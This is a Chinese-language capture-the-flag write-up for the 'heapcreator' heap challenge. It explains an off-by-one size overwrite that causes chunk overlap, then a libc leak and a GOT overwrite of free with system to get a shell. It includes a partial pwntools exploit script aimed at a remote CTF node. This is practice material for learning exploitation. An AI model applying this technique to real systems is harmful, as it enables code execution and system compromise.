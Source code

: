 delete函数中，free掉chunk时，会将预先申请的0x20的chunk和申请的chunk一起free掉。

```
if ( *(&amp;heaparray + v1) )
  `{`
    free(*((void **)*(&amp;heaparray + v1) + 1));
    free(*(&amp;heaparray + v1));
    *(&amp;heaparray + v1) = 0LL;
    puts("Done !");
  `}`
```

于是我们可以先申请一块大小为0xx8（x任选）的chunk，这样溢出一字节就能够覆盖下一块chunk的size位，然后伪造chunk的大小，在经过free后再次申请伪造大小的chunk，从而产生 chunk overlap。

我们可以先申请四块chunk，大小依次为0x18、0x10、0x10、0x10。布局如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01cbd1c405ce96cb50.png)

然后我们对chunk0进行输入，溢出一字节，覆盖chunk1_header的size位为0x81，然后将chunk1 free掉，chunk1_header同时也被free掉，然后这就有了一块大小为0x80的空闲chunk。我们申请大小为0x70的chunk，就可以申请到这块空间。这时下图所示的黄色区域都是我们申请来的chunk，我们想要修改got表，可以将free函数的got表地址写入chunk2_header的原存储chunk2地址处，这样我们对chunk2进行输出时，实际上就是输出free函数的实际地址，泄露出libc的基址，然后将system函数写入，进行free时实际上就是运行了system函数，从而进行getshell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ff15d50e1499c1a2.png)

exp：

```
from pwn import *
from LibcSearcher import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')
io = process('./heapcreator')
io = remote('node3.buuoj.cn', 29320)
elf = ELF('./heapcreator')
free_got = elf.got['free']

def add(size, content):
    io.sendlineafter('Your choice :', '1')
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap:', content)

def edit(index, content):
    io.sendlineafter('Your choice :', '2')
    io.sendlineafter('Index :', str(index))
    io.sendlineafter('Content of heap : ', content)

def display(index):
    io.sendlineafter('Your choice :', '3')
    io.sendlineafter('Index :', str(index))

def delete(index):
    io.sendlineafter('Your choice :', '4')
    io.sendlineafter('Index :', str(index))

add(0x18, 'aaaa') # 0
add(0x10, 'bbbb') # 1
add(0x10, 'cccc') # 2
add(0x10, '/bin/sh') # 3

edit(0, 'a' * 0x18 + '\x81')
delete(1)

```